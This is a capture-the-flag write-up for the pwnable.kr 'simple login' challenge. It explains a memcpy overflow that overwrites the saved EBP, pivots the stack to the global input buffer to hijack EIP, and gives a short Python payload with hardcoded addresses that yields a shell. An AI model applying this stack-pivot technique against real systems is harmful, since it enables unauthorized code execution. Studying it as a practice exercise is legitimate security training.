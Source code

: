 # pwnable.kr -- Rookiss -- simple login
Like the flag says, control EBP, control EIP, then you are the Lord.

## 1. Challenge
  > Can you get authentication from this server?  
  >   
  > Download : http://pwnable.kr/bin/login  
  >   
  > Running at : nc pwnable.kr 9003  

## 2. Solution
  * Download binary file and open it in IDA.

  * In function `auth`, `memcpy` copy your input to a wrong place with 12 bytes at most. Open stack view and we can see that the last 4 bytes can overwrite previous EBP. So if we overwrite previous EBP, when `main` return, we can control EIP.

    ```cpp
    _BOOL4 __cdecl auth(int a1)
    {
      char v2; // [esp+14h] [ebp-14h]
      char *s2; // [esp+1Ch] [ebp-Ch]
      char v4[8]; // [esp+20h] [ebp-8h]

      memcpy(v4, input, a1);
      s2 = (char *)calc_md5((int)&v2, 12);
      printf("hash : %s\n", s2);
      return strcmp("f87cd601aa7fedca99018a8be88eda34", s2) == 0;
    }
    ```

  * But where do we control previous EBP to? Well, set previous EBP to the address of global variable `input`. When `main` return, the first 4 bytes of `input` will be poped to register `EBP` and the second 4 bytes of `input` will be poped to register `EIP`.

  * So the first 4 bytes of `input` can be set to whatever you want, but the second 4 bytes of `input` must be set to the address that can help me get shell. Obviously it is `0x08049284`.

    ```python
    input_addr = 0x0811EB40
    shell_entry = 0x08049284
    payload = b'fuck' + pack(shell_entry, 32) + pack(input_addr, 32)
    ```

  * Encode payload with Base64, send it and you will get shell.
